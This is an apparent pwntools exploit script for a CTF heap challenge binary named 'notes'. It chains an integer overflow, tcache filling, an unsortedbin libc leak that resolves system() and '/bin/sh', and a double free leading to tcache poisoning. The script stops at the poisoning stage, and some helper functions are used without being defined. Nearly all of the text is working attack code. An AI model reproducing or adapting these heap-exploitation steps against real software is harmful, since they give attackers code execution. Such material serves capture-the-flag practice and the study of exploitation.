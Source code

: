 ```python
elf = ELF('./notes')
context(arch = elf.arch, os = 'linux',log_level = 'debug',terminal = ['tmux', 'splitw', '-hp','62'])
p = process('./notes')

def menu(choice):
    sla('> ',str(choice))

def add(size=0x80,data='u'):
    menu(1)
    sla('size: ',str(size))
    sea('content: ',str(data))

def dele(id):
    menu(2)
    sla('note id: ',str(id))

def show(id):
    menu(3)
    sla('note id: ',str(id))

'''
[*] 0. Easy Integer Overflow
'''
sla('How many notes you plan to use?','-1')

'''
[*] 1. Easy Heap Layout
'''
for i in range(10):
    add(0x80)

'''
[*] 2. Fill the Tcache
'''
for i in range(7):
    dele(7-1-i)

'''
[*] 3. Free into Unsortedbin Leak libc
'''
dele(8) # Victim
show(8)
libc_leak = uu64(ru('\x7f',drop=False)[-6:])
libc_base = libc_leak - 0x1ecbe0
lg('libc_leak',libc_leak)
lg('libc_base',libc_base)
libc = ELF('./libc-2.31.so',checksec=False)
libc = elf.libc
libc.address = libc_base
system_addr = libc.sym.system
bin_sh = libc.search('/bin/sh').next()

'''
[*] 4. Double Free into Tcache
'''
dele(7) # Prev
add() # 10
dele(8) # Victim

'''
[*] 5. Split the Unsortedbin --> Overwrite `next` Pointer --> Tcache Poisoning
'''
```